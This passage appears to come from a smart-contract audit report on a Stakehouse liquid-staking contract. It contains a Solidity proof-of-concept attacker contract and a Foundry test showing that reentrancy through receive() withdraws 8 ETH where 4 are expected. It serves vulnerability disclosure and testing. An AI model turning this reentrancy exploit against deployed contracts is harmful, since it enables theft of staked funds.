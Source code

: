 ```solidity
        signature[1] = "signature2";

        IManager(_manager).registerBLSPublicKeys{value: 8 ether}(
            publicKeys,
            signature,
            address(this)
        );

        manager = _manager;

    }

    function withdraw(bytes calldata _blsPublicKeyOfKnot) external {
        IManager(manager).withdrawETHForKnot(address(this), _blsPublicKeyOfKnot);
    }

    receive() external payable {
        if(!state) {
            state = true;
            this.withdraw("publicKeys1");
        }
    }

}
```

There is a restriction in this reentrancy attack, the msg.sender needs to be the same recipient when calling `withdrawETHForKnot`.

We add the test case.

<https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L35>

```solidity
function testBypassIsContractCheck_POC() public {

	NonEOARepresentative pass = new NonEOARepresentative{value: 8 ether}(address(manager));
	address wallet = manager.smartWalletOfNodeRunner(address(pass));
	address reprenstative = manager.smartWalletRepresentative(wallet);
	console.log("smart contract registered as a EOA representative");
	console.log(address(reprenstative) == address(pass));

	// to set the public key state to IDataStructures.LifecycleStatus.INITIALS_REGISTERED
	MockAccountManager(factory.accountMan()).setLifecycleStatus("publicKeys1", 1);

	// expected to withdraw 4 ETHER, but reentrancy allows withdrawing 8 ETHER
	pass.withdraw("publicKeys1");
	console.log("balance after the withdraw, expected 4 ETH, but has 8 ETH");
	console.log(address(pass).balance);

}
```
